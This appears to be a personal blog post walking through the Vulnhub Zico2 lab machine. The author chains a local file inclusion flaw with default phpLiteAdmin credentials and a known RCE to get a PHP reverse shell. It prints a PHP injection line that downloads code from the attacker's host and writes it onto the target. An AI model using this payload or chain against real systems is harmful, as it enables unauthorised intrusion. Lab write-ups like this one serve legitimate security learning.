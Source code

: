 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. Inside of the DBMS, you can find other database called "test_users" with MD5 hashes of "root" and "zico" users (however, once it was decrypted with online resources such us crackstation.net, these credentials were not valid). 
First of all, I created a PHP payload with msfvenom. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of the field, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability of the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)

Got a more stable shell was impossible, I don't know the reason. 
